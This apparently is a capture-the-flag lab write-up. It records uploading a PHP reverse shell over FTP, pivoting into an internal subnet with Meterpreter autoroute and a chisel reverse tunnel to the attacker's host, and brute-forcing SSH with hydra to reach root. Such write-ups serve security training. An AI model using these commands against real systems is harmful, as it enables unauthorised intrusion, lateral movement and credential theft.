 We put a php-reverse-shell through ftp and opened in the browser to activate.

Inside the machine after getting a better shell and a meterpreter: cause why not?
```bash
su ftpuser>ftpuser
ftpuser its a root privileged account.
```

we can nmap the other network

## 172.16.50.222 
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

> We can:
	run autoroute -s 172.16.50.0/24
	in the meterpreter session.
	'I will try with chisel'
	

> GOT IT!


## Pivoting Networking manually with Chisel

In Kali:
```bash
/opt/chisel/chisel server -p 8001 --reverse
```

In the Target:
```bash
./chisel client 10.13.37.11:8001 R:127.0.0.1:2222:172.16.50.222:22
```

>  I opened my port 2222 to receive the connection of the targets port 22
> So now I can access in my kali through the localhost:2222


In Kali:
```bash
nmap localhost -p 2222
PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1

hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/ncrack/minimal.usr localhost -s 2222 ssh
[2222][ssh] host: localhost   login: root   password: root
	
ssh root@localhost -p 2222 
```

- root@xubuntu:~# cat .flag.txt

> Pwned!
